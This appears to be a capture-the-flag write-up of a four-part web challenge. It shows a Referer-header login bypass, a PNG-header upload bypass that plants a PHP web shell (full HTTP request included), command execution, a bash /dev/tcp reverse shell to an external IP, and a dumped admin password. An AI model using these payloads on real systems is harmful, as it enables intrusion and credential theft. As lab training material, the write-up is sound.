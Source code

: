 # Vance-Refridgeration
Really cool challenge that reminded me a lot about Hack the Box's Bank challenge.

- [1. Vance - Bad logic (100)](#1-vance---bad-logic-100)
- [2. Vance - Broken Trust (150)](#2-vance---broken-trust-150)
- [3. Vance - Triple Bypass (150)](#3-vance---triple-bypass-150)
- [4. Vance - Summit (150)](#4-vance---summit-150)

# 1. Vance - Bad logic (100)

From the challenge hint we got that the developers SQL sanitization was pretty good and we should focus on logic bugs.

With that in mind I went ahead started up gobuster to see what all I could find.

`gobuster -u http://vance.threatsims.com:35005 -w directory-list-lowercase-2.3-big.txt -x php`

```
/index.php (Status: 200)
/images (Status: 301)
/about.php (Status: 302)
/login.php (Status: 200)
/uploads (Status: 301)
/upload.php (Status: 302)
/includes (Status: 301)
/dashboard.php (Status: 302)
/plans.php (Status: 302)
```

All of the pages were redirecting me to the login page, so I took a look there and found a hint in the HTML comments.

`<!-- TODO: Remove referer flow check in prod -->`

With this hint I decided to play around with the referer a bit till I found the vulnerability! If you set the referer as `/login.php` then it assumes you had already logged in and redirected you to the right page.

`Referer: http://vance.threatsims.com:35005/login.php`

Since we already found some of the pages with gobuster, I went ahead and tried a few until I landed on `/about.php` which contained the first flag `{fridge_g4ng}`!

![Flag Picture](./vance2.PNG)

<br />

# 2. Vance - Broken Trust (150)
Checking out the rest of the pages, we also find another flag at `upload.php`, `{I_am_a_Butt3r_L0rd}`!

![Flag Picture](./vance3.PNG)

<br />

# 3. Vance - Triple Bypass (150)

Since there was an upload page, I assumed the next step was to try to get some sort've RCE through a file upload vulnerability. I tried to enter a basic php file, but got hit with an error message that I needed to upload a valid file. So we will need to get around the file sanitization somehow.

After messing around with the page for a bit, I managed to bypass sanitization by including PNG headers in the file.

```
POST /upload.php HTTP/1.1
Host: vance.threatsims.com:35005
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------129324419341189066324135806543
Content-Length: 401
Origin: http://vance.threatsims.com:35005
Connection: close
Referer: http://vance.threatsims.com:35005/upload.php
Cookie: PHPSESSID=mmo8jthqndf03kjd6f4p38jvt1
Upgrade-Insecure-Requests: 1
Referer: http://vance.threatsims.com:35005/login.php

-----------------------------129324419341189066324135806543
Content-Disposition: form-data; name="file"; filename="cmd.php"
Content-Type: image/png

PNG

   
IHDRDATA:
<?php echo system($_GET['cmd']); ?>)
-----------------------------129324419341189066324135806543
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------129324419341189066324135806543--
```

This let me upload and execute some commands on the server.

`<?php echo system($_GET['cmd']); ?>`

Checking to see what all is on the server we can issue a simple command

`/uploads/cmd.php?cmd=ls`

```
Kappa.png
cmd.php
crusader.jpg
intro-1609948293.jpg
intro-1609948293.php
k2w22.php
k2w3.php
k2w4.php
krosserev.php
krosserev3.php
krosserev3.php)
```

Snooping around a little more we find another flag `{w4r_n0t_won_in_Meetings}` by sending the command `/uploads/cmd.php?cmd=cat ../../../../flag.txt`

# 4. Vance - Summit (150)
Finally the hint says that we need to get admin. So to make things easier for me, I go ahead and get a reverse shell going.

To do this I created a C2 server using an AWS EC2 instance and then sent the reverse shell to that IP address.

Setup listener

`nc -lnvp 6000`

Connect the shell to the C2 server

`bash -c "bash -i >& /dev/tcp/3.236.230.174/6000 0>&1"`

I took a look at all the SUID executables to try and escilate my privelage and couldn't find anything that worked.

After reading the challenge back, it said to get `admin` and not `root`, which was enough of a difference to make me check the database.

Printing out the users.db file
we print out the sqlite users.db file and get ->

`35ea1e37e61a12adminadmin@trebuchet.orgH01yL4nD!MARY KEY, USERNAME TEXT, EMAIL TEXT, PASSWORD TEXT))=indexsqlite_autoindex_users_1users
GUACAMOLE5`

Which gives us a password for admin!

`admin:H01yL4nD!`

Logging in as admin, we print out `flag.txt` in the admin user's directory and we get the final flag!

`{Bigg3st_Chungus}`
